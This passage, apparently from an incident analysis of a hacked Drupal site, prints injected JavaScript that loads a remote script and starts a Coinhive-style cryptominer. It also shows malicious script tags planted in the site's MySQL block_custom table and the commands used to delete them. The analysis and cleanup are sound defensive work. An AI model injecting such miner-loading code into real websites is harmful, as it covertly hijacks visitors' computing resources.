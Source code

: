 ```javascript
  else {
    _0x17a8x4["onload"] = function(){
      _0x17a8x3()
    }
  };
  _0x17a8x4["src"] = _0x17a8x2;
  document["getElementsByTagName"]("head")[0]["appendChild"](_0x17a8x4)
}

loadScript("http://146.185.234.xx/hhY6.js",function(){
  setTimeout(function(){
    if( typeof (miner)!= "undefined"){
      try{miner["stop"]()}
      catch(e){}
    };
    if( typeof (_client)!= "undefined"){
      try{_client["stop"]()}
      catch(e){}
    };
    document["_client"] = new Client.Anonymous("56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742",{throttle:0.3});
    document["_client"]["start"](Client.FORCE_MULTI_TAB)
  },1000)
})
```

This script was trying to load more cryptojacking scripts. It had a similar resemblance to: https://coinhive.com/documentation/miner

### MySQL Database Analysis

Drupal uses MySQL database to load HTML content from modules. The hidden malicious javascript code (found in HTML) was injected in a MySQL table: **block_custom** in database: **subdomainsite**

```console
|   8 | <script type="text/javascript" src="https://wt-23afbbf05d73a701c3ef54b49e4de14c-0.sandbox.auth0-extend.com/full-http-control"></script>
| drupal update | php_code |
|   9 | <script type="text/javascript" src="https://wt-23afbbf05d73a701c3ef54b49e4de14c-0.sandbox.auth0-extend.com/full-http-control"></script>
| drupal updater | full_html |
```

While looking at the table rows, the links were trying to force the site to load the cryptojacking scripts. I cleaned up these rows from MySQL:

```console
mysql> delete from block_custom where bid=8;
Query OK, 1 row affected (0.05 sec)

mysql> delete from block_custom where bid=9;
Query OK, 1 row affected (0.03 sec)
```
